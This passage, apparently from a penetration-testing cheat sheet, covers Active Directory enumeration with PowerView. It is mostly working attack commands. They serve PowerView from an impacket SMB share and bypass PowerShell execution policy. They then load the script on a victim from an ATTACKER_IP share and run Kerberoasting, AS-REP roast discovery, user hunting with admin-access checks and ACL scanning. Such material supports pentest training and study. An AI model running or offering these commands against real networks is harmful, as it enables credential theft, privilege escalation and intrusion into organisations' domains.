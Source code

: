 ```powershell
$m=[System.Collections.ArrayList]@();
$s.FindAll()|?{_r $_ $m | out-null};
$m|sort-object OU -unique|?{write-host ([string]::Format("[OU] {0}: {1}",$_.OU,$_.M))};
```


### 5.1.2 Domain Enumeration with PowerView

PowerView is a PowerShell script that makes enumerating Active Directory much easier. To see a list of all available functions, see the [documentation](https://powersploit.readthedocs.io/en/latest/Recon/).

To get a copy on Kali for transfer to your victim:

```sh
cp /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 .

# also grab sysinternals suite in case you need it
wget https://download.sysinternals.com/files/SysinternalsSuite.zip
unzip -d sysinternals SysinternalsSuite.zip

impacket-smbserver -smb2support -user derp -password herpderp share .
```

Usage (some commands may take a minute or two to complete):

```powershell
# stop complaints about running downloaded scripts
powershell -ep bypass

# connect to attacker SMB share
net use \\ATTACKER_IP herpderp /user:derp

# load all the functions from PowerView into your session
Import-Module \\ATTACKER_IP\share\PowerView.ps1

# basic info about the current domain
Get-Domain

# list all domain controllers
Get-DomainController


# List AS-REP Roastable users
Get-DomainUser -PreauthNotRequired | select samaccountname
# Kerberoast all kerberoastable users
Invoke-Kerberoast | fl
# Get members from Domain Admins (default) and a list of computers and check if any of the users is logged in any machine running Get-NetSession/Get-NetLoggedon on each host. If -Checkaccess, then it also check for LocalAdmin access in the hosts. (takes time)
Invoke-UserHunter -CheckAccess
# complete information about a single user to view available fields
Get-NetUser | Select -First 1
# complete information about specific user
Get-NetUser USERNAME
# list of all usernames with last logon and password set times
Get-NetUser | select samaccountname,pwdlastset,lastlogon

# list of all service accounts, or Service Principal Names (SPNs)
Get-NetUser -SPN | select samaccountname,serviceprincipalname

# Find interesting ACLs (takes time)
Invoke-ACLScanner -ResolveGUIDs | select IdentityReferenceName,ObjectDN,ActiveDirectoryRights | fl
# list of all ACEs (permissions) for specific user
Get-ObjectAcl -Identity USER_OR_GROUP_NAME
# filter list for "interesting" permissions
```